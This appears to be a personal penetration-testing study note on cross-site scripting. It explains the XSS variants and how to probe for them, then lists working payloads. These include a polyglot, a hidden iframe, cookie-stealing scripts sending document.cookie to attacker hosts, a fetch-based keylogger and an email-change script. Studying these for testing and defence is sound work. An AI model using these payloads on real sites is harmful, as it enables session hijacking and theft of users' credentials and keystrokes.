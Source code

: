 

XSS vulnerability is created when a web page allows unsanitized data.  
  
Regardless of how the XSS payload is delivered and executed, the injected scripts run under the context of the user viewing the affected page.  
It's the user’s browser, not the web application, executes the XSS payload.  
These attacks can have a significant impact resulting in session hijacking, forced redirection to malicious pages, execution of local applications as that user, etc.  
  
  
[BeEF](BeEF.md) - Can leverage XSS vulns to launch many different client-side attacks.  
  
  
3 varients of XSS are stored, reflected, and DOM-based:  
  

### Stored:
aka: Persistent XSS, occurs when the exploit payload is stored in a database or otherwise cached by a server.  
The web application then retrieves this payload and displays it to anyone that views a vulnerable page.  
A single Stored XSS vulnerability can therefore attack all users of the site.  
Stored XSS vulnerabilities often exist in forum software, especially in comment sections, or in product reviews.  
  

### Reflected:
Usually include the payload in a crafted request or link.  
The web application takes this value and places it into the page content.  
This variant only attacks the person submitting the request or viewing the link.  
User-supplied data in an HTTP request is included in the webpage source without any validation.  
Reflected XSS vulnerabilities can often occur in search fields and results, as well as anywhere user input is included in error messages.  


### DOM-based:
Similar to previous two, but takes place solely within the page’s Document Object Model (DOM).  
A browser parses a page’s HTML content and generates an internal DOM representation.  
JavaScript can programmatically interact with this DOM.  
This variant occurs when a page’s DOM is modified with user-controlled values.  
DOM-based XSS can be stored or reflected.  
The key difference is that DOM-based XSS attacks occur when a browser parses the page’s content and inserted JavaScript is executed.  
  
  

### Blind:
Similar to stored, however you can't see it working or be able to test for it on yourself.  
Ex: Injecting into a staff contact form where the malicious code gets turned into a support ticket which the staff views on a private web portal.  
  
  

### ID'ing:
Identify input fields which display input data as output in subsequent pages.  
By entering characters that are used in common scripting languages, we can find out what's filtered/ sanitized and what's not.  
  
Test:  
Stored:  
- Comments on a blog  
- User profile information  
- Website Listings  
Reflective:  
- Parameters in the URL Query String  
- URL File Path  
- Sometimes HTTP Headers  
DOM:  
- Challenging to test for, requires a certain amount of knowledge of JS.  
- Look for parts of code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.  
- Then need to see how they are handled & whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.  
  

Most common characters used:  
```bash
< > ' " { } ;
```


HTML uses _**<**_ and _**>**_ to denote elements  
JS uses _**{**_ and _**}**_ in function declarations  
_**'**_ and _**"**_ are used to denote strings  
_**;**_ is used to denote end of a statement.  
  
Useful for identifying what remains after filtering for XSS attacks  
```html
'';!--"<XSS>=&{()}
```


Even if a server returns the above w/ _**&lt**_ and _**&gt**_ inplace of _**<**_ and _**>**_, you may still be able to inject into an existing IMG tag:  
```html
SRC=javascript:alert('XSS')
```

  
When testing an HTML field using
```html
<hr>
```
	can create an obvious indicator  
  
Different sets of characters may be needed depending on where our input is being included.  
For example, if our input is being added between div tags, we will need to include our own script tags and will need to be able to inject “<” and “>” as part of the payload.  
If our input is being added within an existing JavaScript tag, we might only need quotes and semicolons to add our own code.  
  

### Attacks:
- Implement pw guessing against internal web apps  
- Steal creds by creating a fake login prompt  
- Add browser keystroke logger  
- Take screenshot of browser page  
- Port scan internal servers  
- Redirect a form to an attacker  
- Capture microphone & camera  
- Deploy JS cryptominer  
- Retreive user cookie token:  
```html
<script>document.location='http://attacker.com/save.php?c='+document.cookie</script>
```


Polyglots:  
A string of text which can escape attributes, tags and bypass filters all in one.  
```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

  

### Content Injection:
XSS vulns are often used to deliver client-side attacks as they allow the attacker to redirect the victim's browser to their choosing.  
A stealthier alternative is to inject an invisible I-frame"  
```html
<iframe src=http://attack.com/payload height="0" width="0"></iframe>
```


Can also redirect the victim browser to a client-side attack or to an information gathering script.  
(Need the User-Agent to determine the victim's browser)  
  

### Stealing Cookies & Session Info:
If the web app uses insecure session management, we can use XSS to steal a user's cookies and masquarade as that user within the target website.  
```html
<script>new Image().src="http://attackerip/cool.jpg?output="+document.cookie;</script>
```

  
Once a logged in user visits the affected page, their session data is sent to the attacker's ip ([nc](Tools.md#netcat) listener)
![[cookie_steal.png]]

\[\[\[\[\[\[\[ Cookie Editor \]\]\]\]\]\]\] - Cookie setting and management add-on for Firefox  
  
***Note:** This attack is session-specific. Once we steal the session, we can masquerade as the victim until they log out or their session expires.  
  
We're now able to set our cookie name=value pair to **PHPSESSID=delkcrm4vdkgqcqvkrs7ehlghe  
**  
  
  
Keylogger:  
```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
	btoa - base64 encode  
  
  
Change Email:  
```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```